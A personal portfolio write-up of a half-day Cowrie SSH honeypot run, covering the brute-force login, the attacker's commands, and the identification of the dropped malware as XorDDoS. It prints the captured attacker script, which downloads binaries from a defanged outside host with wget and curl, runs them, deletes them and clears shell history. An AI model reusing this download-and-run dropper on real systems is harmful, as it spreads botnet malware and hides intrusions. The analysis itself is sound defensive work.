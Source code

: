 ```yaml
---
layout: default
---
```

### [Home](../../index.md) | [Projects](../index.md)

# Cowrie & The Infrastructure Used

Cowrie is a honeypot designed to log brute-force attacks and attacker shell interactions. It supports ingesting logs into various log aggregation services. Since I have extensive experience with SQL, I chose to store its logs in a MySQL database.

### Infrastructure:

- Azure Virtual Machine
 - Linux (Ubuntu Server 24.04)
  - Services:
   - Cowrie (Honeypot)
   - MySQL (Log Storage)
   
## Running Cowrie
 
 I ran Cowrie for just half a day, and even in that short time, I observed some very interesting and suspicious behavior. Almost immediately, I started seeing clear signs of brute-force attacks.
 
![Brute Force Start](project_images/sql_bf.png)
 
From this image, we can see an attack originating from **218.92.0.186**. Other random IPs also appear from time to time, which we will discuss later.

To see the full extent of this brute-force attack, you can view the .csv file [here](https://github.com/seanmcg93/seanmcg93.github.io/blob/main/projects/cowrie/project_files/auth_ip.csv).

We can see that the brute-force attack started at _12:40:02_ from IP **218.92.0.186**. The attacker successfully gained access to the system at _15:08:35_, meaning it took them a little over two hours to guess the correct password—**root**.

![Brute Force Success](project_images/bf_success.png)

It appears that the attacker used **218.92.0.186** to carry out the brute-force attack and, once successful, handed access over to **218.92.0.131**, likely to handle malware delivery.

#### Here is a report from _VirusTotal_ on both IPs:

*	[218.92.0.186](https://www.virustotal.com/gui/ip-address/218.92.0.186)
*	[218.92.0.131](https://www.virustotal.com/gui/ip-address/218.92.0.131)

Now that the attacker is inside our Honeypot we can track every command they run.

![Malware Delivery](project_images/inputs.png)

From this image we can clearly see the attacker ran a script and downloaded something from another IP using _wget_ and _curl_, lets break this command down. 

```
#!/bin/sh
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; # Ensures standard system paths are included in the script’s environment. 
wget hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the file "112" using wget.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the same file using curl, ensuring it keeps the original filename.
chmod +x 112;  # Makes "112" executable.
./112;  # Executes "112".
wget hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads another file named "112s" from the same server.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads "112s" while preserving its name.
chmod +x 112s;  # Makes "112s" executable.
./112s;  # Executes "112s".
rm -rf 112.sh;  # Deletes "112.sh".
rm -rf 112;  # Deletes "112" after execution.
rm -rf 112s;  # Deletes "112s" after execution.
history -c  # Clears the shell history to erase evidence of the commands.

```
You can view the .csv for the attackers inputs [here](https://github.com/seanmcg93/seanmcg93.github.io/blob/main/projects/cowrie/project_files/inputs.csv).

**Note:** I have defanged the IP of the malware-hosting server for safety.
It appears that the attacker runs both wget and curl, likely to ensure the download succeeds in case one of the utilities is unavailable on the system.

![Malware-Hosting Server](project_images/malware_host.png)

We can see the full report on the Malware-Hosting Server [here](https://www.virustotal.com/gui/ip-address/43.249.172.195).

## The Malware

We can see that the attacker downloaded something—but what?
Luckily for us, Cowrie has excellent logging and provides a SHA-256 hash of the downloaded file.

![SQL Hash](project_images/sql_shasum.png)

**SHA-256 Hash:** ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73

Now that we have the hash, we can submit it to VirusTotal to analyze it and determine what kind of malware we’re dealing with.

![Virus Total Hash](project_images/virustotal_hash.png)

See the full report from _VirusTotal_ [here](https://www.virustotal.com/gui/file/ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73)

## XorDDoS: The Malware Behind the Attack

From this report, we can see that this file is identified as a Trojan linked to XorDDos, a well known Linux malware strain used to launch DDoS attacks.

#### What is XorDDoS:

*	XorDDoS is a Linux-based malware that has been active since at least 2014.
*	It gets its name from its use of XOR-based encryption to obfuscate communication between infected machines and the command-and-control (C2) servers.
*	XorDDoS primarily targets Linux servers and IoT devices, turning them into botnets to launch massive DDoS attacks against websites and infrastructure.
*	Once inside, it downloads additional payloads, executes them, and then cleans up traces by deleting logs—exactly what we saw in our attack!

#### XorDDos Capabilities:

*	**Launching DDoS Attacks** – Uses infected machines to generate high-volume traffic aimed at bringing down targets.
*	**Persistence & Evasion** – It modifies system settings to survive reboots and evade detection.
*	**Backdoor Functionality** – Allows remote attackers to execute arbitrary commands on the compromised system.
*	**Obfuscation** – Uses XOR-based encryption to disguise network traffic.

#### What This Means for Our Honeypot:

*	The attacker brute-forced their way into our honeypot.
*	They quickly downloaded a XorDDoS variant and executed it.
* 	Their goal was likely to recruit our system into a botnet to launch DDoS attacks against other targets.
*	They also attempted to cover their tracks by deleting logs and clearing history.

#### Key Takeaways

*	Cowrie provided valuable insights into how attackers deliver and execute malware.
*	XorDDoS remains an active Linux threat, and honeypots like this help expose its tactics.

## Conclusion

This experiment with Cowrie provided a firsthand look at real-world SSH brute-force attacks and malware delivery techniques. By capturing and analyzing attacker activity, we uncovered how XorDDoS spreads and operates. This highlights the importance of strong authentication, monitoring logs, and proactive security measures to defend against such threats.

### Docs & Other Files
*	[Cowrie Docs](https://docs.cowrie.org/en/latest/)
*	[Cowrie GitHub](https://github.com/cowrie/cowrie)






### Contact
Sean McGovern

La Grange, North Carolina 

Interested in my experience? Check out my [resume](https://seanmcg93.github.io/resume/Sean_McGovern_Resume.pdf)!

[Linkedin](https://www.linkedin.com/in/sean-mcgovern-310457272/) 











